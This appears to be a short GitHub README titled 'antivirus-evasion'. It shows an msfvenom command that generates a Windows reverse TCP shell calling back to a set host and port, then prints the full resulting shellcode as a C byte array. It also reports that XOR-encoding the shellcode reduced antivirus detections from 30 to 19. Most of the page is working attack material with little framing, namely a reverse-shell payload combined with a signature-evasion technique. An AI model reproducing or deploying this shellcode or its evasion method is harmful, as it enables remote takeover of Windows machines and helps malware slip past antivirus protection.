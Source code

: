 # antivirus-evasion

Applying some AV techniques on a metasploit reverse shell

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.58.159 LPORT=9999 -f c
```
Our generated shellcode

```
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x3a\x9f\x68"
"\x02\x00\x27\x0f\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

```
Just by xoring the generated shellcode we bypassed some signature based detections, and we went from 30 detections to 19.

Resources:

https://blog.f-secure.com/dynamic-shellcode-execution/

https://blog.sevagas.com/

https://0xpat.github.io/
